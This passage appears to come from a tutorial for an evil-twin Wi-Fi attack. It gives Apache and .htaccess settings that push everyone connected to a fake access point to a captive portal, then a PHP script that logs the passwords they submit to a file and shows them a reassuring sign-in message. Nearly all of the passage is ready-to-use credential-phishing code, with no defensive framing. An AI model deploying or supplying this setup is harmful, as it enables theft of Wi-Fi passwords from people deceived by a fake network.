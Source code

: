 #### With Modifications

```Apache2.conf
...
<Directory />
	Options FollowSymLinks
	AllowOverride All
	Require all denied
</Directory>
<Directory /var/www/>
	Options Indexes FollowSymLinks
	AllowOverride All
	Require all granted
</Directory>
...

```

At this point we need to setup an `.htacces` file. This defines rules for our web server, that notifies stations connected to our fake AP that they need to sign in through the captive portal. We do so in the `/var/www/html` directory.

```.htaccess
RewriteEngine on
RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.html [L]

```

Then we save the .htaccess file and restart apache2.

```shell
service apache2 restart

```

If a user enters their password a POST request is sent to `received.php` which consists of the following

```php
<?php
if(isset($_POST['submit'])) {
    $password = $_POST['password'];

    $data = $password . "\r\n";
    $ret = file_put_contents('passes.lst', $data, FILE_APPEND | LOCK_EX);
    if($ret === false) {
        die('An error has occurred');
    }
    else {
        echo "Thank you for signing in. You will be redirected shortly!";
    }
}
else {
   die('No post data to process');
}
?>

```
